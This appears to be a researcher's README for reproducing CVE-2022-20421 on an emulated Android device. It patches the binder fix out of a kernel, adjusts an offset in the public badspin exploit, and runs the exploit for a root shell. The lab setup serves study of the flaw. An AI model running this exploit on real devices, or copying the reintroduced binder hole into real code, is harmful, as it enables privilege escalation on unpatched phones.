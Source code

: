 Instructions and overview to reproduce CVE-2022-20421 (https://github.com/0xkol/badspin/tree/main)
This reproduction uses cuttlefish, so an ARM server with KVM virtualization support is needed.
# Setup Cuttlefish
Roughly follow https://source.android.com/docs/devices/cuttlefish/get-started

First part to clone goes the same:
```sh
sudo apt install -y git devscripts equivs config-package-dev debhelper-compat golang curl
git clone https://github.com/google/android-cuttlefish
```

However, on the debian version I was on, libtinfo5 was no longer available, so I had to use libtinfo6.
Apply the following patch if there is an issue with this:
```diff
diff --git a/base/debian/control b/base/debian/control  
index 80a3be138..492b8d1e1 100644  
--- a/base/debian/control  
+++ b/base/debian/control  
@@ -13,7 +13,7 @@ Build-Depends: bazel [amd64],  
               libgoogle-glog-dev,  
               libgtest-dev,  
               libjsoncpp-dev,  
-               libtinfo5,  
+               libtinfo6,  
               libprotobuf-c-dev,  
               libprotobuf-dev,  
               libssl-dev,
```

Run the rest of the commands to install cuttlefish the same as on the website:
```sh
tools/buildutils/build_packages.sh
sudo dpkg -i ./cuttlefish-base_*_*64.deb || sudo apt-get install -f
sudo dpkg -i ./cuttlefish-user_*_*64.deb || sudo apt-get install -f
sudo usermod -aG kvm,cvdnetwork,render $USER
sudo reboot
```

Cuttlefish requires and android image and host package to run also. Follow instructions on the website and download host tools for android13 with a 5.10 kernel, and extract them both into the same folder.

# Building Vulnerable Kernel

I used the `common-android13-5.10-2025-03`, which did have the bug fixed, but I reintroduced the bug. The commit which fixes the bug is https://android.googlesource.com/kernel/common/+/19bb609b45fbbab4cfd9a8765dc8cb9c90cfda34.

To reintroduce the bug, clone the kernel as follows:
```sh
mkdir common-android13-5.10-2025-03
cd common-android13-5.10-2025-03
repo init --partial-clone --no-use-superproject -u https://android.googlesource.com/kernel/manifest -b common-android13-5.10-2025-03
repo sync -c -j8
```
It may take quite a while to clone the kernel.

Then apply the following patch:
```diff
diff --git a/drivers/android/binder.c b/drivers/android/binder.c  
index bebc9827ef05..521e7d638ba5 100644  
--- a/drivers/android/binder.c  
+++ b/drivers/android/binder.c  
@@ -1556,7 +1556,8 @@ static int binder_inc_ref_for_node(struct binder_proc *proc,  
       }  
       ret = binder_inc_ref_olocked(ref, strong, target_list);  
       *rdata = ref->data;  
-       if (ret && ref == new_ref) {  
+       // patch out CVE-2022-20421 fix to run badspin exploit  
+       //if (ret && ref == new_ref) {  
               /*  
                * Cleanup the failed reference here as the target  
                * could now be dead and have already released its  
@@ -1564,9 +1565,9 @@ static int binder_inc_ref_for_node(struct binder_proc *proc,  
                * with strong=0 and a tmp_refs will not decrement  
                * the node. The new_ref gets kfree'd below.  
                */  
-               binder_cleanup_ref_olocked(new_ref);  
-               ref = NULL;  
-       }  
+               //binder_cleanup_ref_olocked(new_ref);  
+               //ref = NULL;  
+       //}  
   
       binder_proc_unlock(proc);  
       if (new_ref && ref != new_ref)
```

Then build the kernel using the following command (note: it may take a lot of memory (~20 GB) to build the kernel):
```sh
tools/bazel run //common-modules/virtual-device:virtual_device_aarch64_dist
```

The kernel image will be present at `out/android13-5.10/dist/Image`, and the init ramdisk will be present at `out/android13-5.10/dist/initramfs.img`. Copy these files over to the arm server.

# Building Badspin
Install android studio cli tools, and use those to install ndk.

Badspin will need to be modified slightly, just changing 1 offset.
Run the following command to get the offset of `anon_pipe_buf_ops`:
```
$ readelf -s out/android13-5.10/dist/vmlinux | grep 'anon_pipe_buf_ops'
199165: ffffffc012024da8    32 OBJECT  LOCAL  DEFAULT    3 anon_pipe_buf_ops
```

Replace the address in the `offset_kbase` function like shown below:
```diff
--- a/badspin_reproduction/src/rw.c  
+++ b/badspin_reproduction/src/rw.c  
@@ -568,7 +568,7 @@ u64 noop_kbase(struct rw_info *rw) {  
u64 offset_kbase(struct rw_info *rw) {  
    //return rw->ki.pipe_buffer_ops - OFFCHK(dev_config->kconsts.kernel_offsets.k_anon_pipe_buf_ops);  
    // MODIFIED  
-    return rw->ki.pipe_buffer_ops - (0xffffffc00a03f868 - 0xffffffc008000000);  
+    return rw->ki.pipe_buffer_ops - (0xffffffc012024da8 - 0xffffffc008000000);  
}
```

Then compile badspin with:
`$env.ANDROID_NDK_HOME = "/home/jack/Documents/college/purdue/research/android_sdk/ndk/25.2.9519653/"; make all`

This will produce a `libbadspin.so` shared library.

# Running Custom Kernel
Navigate to folder where android image and host tools was extracted to earlier. Copy the `Image` and `initramfs.img` files to this folder, and to start cuttlefish run:
```sh
HOME=$PWD ./bin/launch_cvd -kernel_path=./Image -initramfs_path=initramfs.img -cpus 8
```
Note badspin requires at least 5 CPUs I think, I used 8 to be safe.

# Running Badspin Exploit
Starting in the same folder as previously, run the following command to upload `libbadspin.so` to cuttlefish device:
```sh
HOME=$PWD ./bin/adb push libbadnode.so /data/local/tmp
```

Get a shell on the device with the command (run command until it finds the device):
```sh
HOME=$PWD ./bin/adb shell
```

To run the badspin exploit, in the adb shell, run:
```sh
LD_PRELOAD=/data/local/tmp/libbadspin.so sleep 1
```

It seems to have a 10%-20% success rate, if the device crashes, just re upload `libbadspin.so`, reconnect `adb shell`, and try again.
Badspin repo seems to suggest exploit is unstable for first few minutes device is up, so waiting a bit before running may help.

If exploit succeeds, it should spawn a root shell.

# Badspin Issues Encountered
- First issue: kernel hangs after `triggering UAF` printed
	- This is caused by not enough cpus being available in cuttlefish VM
	- Raise CPU number from 2 to 8
- Second Issue: `epool_ctl` fails with`ENOSPC` when setting up timerfd race extension trick
	- This is caused by epoll user watch limit in `/proc/sys/fs/epoll/max_user_watches` being hit
	- Exploit makes about 50000 epoll entries per try
	- Limit is around 16600
	- Instead set amount used around 15000